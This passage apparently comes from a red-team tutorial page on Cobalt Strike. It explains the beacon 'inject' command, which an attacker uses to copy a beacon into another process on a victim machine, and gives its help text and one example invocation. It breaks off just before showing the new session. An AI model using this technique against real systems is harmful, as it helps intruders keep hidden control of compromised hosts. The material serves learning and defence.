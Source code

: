 {% page-ref page="../../miscellaneous-reversing-forensics/windows-linux-os-internals/exploring-process-environment-block.md" %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode %}

Note how after injecting the beacon to PID 776, another session is spawned:
